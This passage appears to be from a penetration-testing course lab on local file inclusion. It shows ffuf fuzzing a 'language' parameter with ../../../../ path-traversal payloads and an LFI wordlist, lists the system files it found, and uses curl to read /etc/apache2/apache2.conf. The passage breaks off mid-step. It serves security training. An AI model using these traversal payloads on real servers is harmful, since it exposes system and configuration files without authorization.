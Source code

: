
```shell-session
smoothment@htb[/htb]$ ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287

...SNIP...

 :: Method : GET
 :: URL : http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ
 :: Wordlist : FUZZ: ./LFI-WordList-Linux
 :: Follow redirects : false
 :: Calibration : false
 :: Timeout : 10
 :: Threads : 40
 :: Matcher : Response status: 200,204,301,302,307,401,403,405
 :: Filter : Response size: 2287
________________________________________________

/etc/hosts [Status: 200, Size: 2461, Words: 636, Lines: 72]
/etc/hostname [Status: 200, Size: 2300, Words: 634, Lines: 66]
/etc/login.defs [Status: 200, Size: 12837, Words: 2271, Lines: 406]
/etc/fstab [Status: 200, Size: 2324, Words: 639, Lines: 66]
/etc/apache2/apache2.conf [Status: 200, Size: 9511, Words: 1575, Lines: 292]
/etc/issue.net [Status: 200, Size: 2306, Words: 636, Lines: 66]
...SNIP...
/etc/apache2/mods-enabled/status.conf [Status: 200, Size: 3036, Words: 715, Lines: 94]
/etc/apache2/mods-enabled/alias.conf [Status: 200, Size: 3130, Words: 748, Lines: 89]
/etc/apache2/envvars [Status: 200, Size: 4069, Words: 823, Lines: 112]
/etc/adduser.conf [Status: 200, Size: 5315, Words: 1035, Lines: 153]
```

As we can see, the scan returned over 60 results, many of which were not identified with the [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist, which shows us that a precise scan is important in certain cases. Now, we can try reading any of these files to see whether we can get their content. We will read (`/etc/apache2/apache2.conf`), as it is a known path for the apache server configuration:


```shell-session
smoothment@htb[/htb]$ curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf

...SNIP...
 ServerAdmin webmaster@localhost
 DocumentRoot /var/www/html

 ErrorLog ${APACHE_LOG_DIR}/error.log
 CustomLog ${APACHE_LOG_DIR}/access.log combined
...SNIP...
```

As we can see, we do get the default webroot path and the log path. However, in this case, the log path is using a global apache variable (`APACHE_LOG_DIR`), which are found in another file we saw above, which is (`/etc/apache2/envvars`), and we can read it to find the variable values:
